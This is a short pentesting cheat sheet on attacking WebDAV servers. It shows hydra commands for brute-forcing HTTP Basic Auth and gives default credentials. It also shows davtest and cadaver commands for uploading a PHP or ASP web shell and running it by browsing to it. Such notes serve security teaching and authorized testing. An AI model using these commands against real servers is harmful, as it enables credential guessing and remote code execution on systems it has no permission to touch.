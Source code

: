 # WebDAV

## Theory

WebDAV is a set of extensions to the Hypertext Transfer Protocol, which allows user agents to collaboratively author contents directly in an HTTP web server. Usually, to **connect** a WebDav server you will need valid **credentials.**

## Practice

### Brute-force (HTTP Basic Auth)



{% tabs %}
{% tab title="hydra" %}
WebDAV usually require valid credentials using HTTP Basic Auth. You may bruteforce it using [hydra](https://github.com/vanhauser-thc/thc-hydra)

```bash
hydra -L users.txt -P passwords.txt example.domain.local http-get /webdavDirectory/
```

{% hint style="info" %}
Default credentials are **`wampp:xampp`**
{% endhint %}
{% endtab %}
{% endtabs %}

### Upload a shell

{% tabs %}
{% tab title="Davtest" %}
**Davtest** will try to upload several files with different extensions and check if the extension is executed:

```bash
# Test and cleanup
davtest -url http://example.com/davdir -auth 'user:pass' -cleanup

#Uplaod .txt files and try to move it to other extensions
davtest -url http://example.com/davdir -auth 'user:pass' -cleanup -move 
```

If we can upload the file e.g. PHP file, upload the script for reverse shell.

```bash
davtest -url http://example.com/davdir -auth 'user:pass' -uploadfile shell.php -uploadloc shell.php
```

Then we can navigate to http://example.com/davdir/shell.php to execute it.
{% endtab %}

{% tab title="Cadaver" %}
You can use this tool to **connect to the WebDav** server and perform actions (like **upload**, **move** or **delete**) **manually**.

```bash
$ cadaver http://example.com/davdir
Username: bob
Password: 
dav:/davdir/> put /usr/share/webshells/asp/webshell.asp
```

Then we can navigate to http://example.com/davdir/webshell.asp to execute it.
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://exploit-notes.hdks.org/exploit/web/webdav-pentesting/" %}

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/put-method-webdav" %}
